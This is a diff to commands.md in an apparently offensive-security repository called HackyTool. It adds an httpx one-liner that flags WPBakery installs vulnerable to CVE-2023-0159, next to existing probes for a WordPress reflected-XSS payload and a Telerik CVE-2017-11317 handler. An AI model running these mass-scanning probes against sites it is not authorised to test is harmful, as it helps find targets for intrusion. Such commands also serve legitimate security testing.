

Before and after one commit to Fekerineamar/HackyTool, a Markdown page: commands.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

```diff
--- a/commands.md
+++ b/commands.md
@@ -47,6 +47,9 @@
 ## wordpressXss:
     cat domain.txt | httpx -path "/wp-admin/admin-ajax.php?action=ptp_design4_color_columns&post_id=1&column_names=%3Ch1%3EAkira%3C/h1%3E" -ms "<h1>Akira</h1>" -fe "Location: .*<h1>Akira</h1>.*" -t 200 -mc 200
 
+## CVE-2023-0159-WPBakery
+    cat alldomains.txt | httpx -path "/wp-content/plugins/wolf-visual-composer/readme.txt" -ms "Stable tag: 1." -o WPBakery.txt
+
 ## CVE-2017-11317-Telerik
     cat subs.txt | httpx -path "/Telerik.Web.UI.WebResource.axd?type=rau" -ms '"RadAsyncUpload handler is registered succesfully' -t 200 -o telerik2.txt
 
```
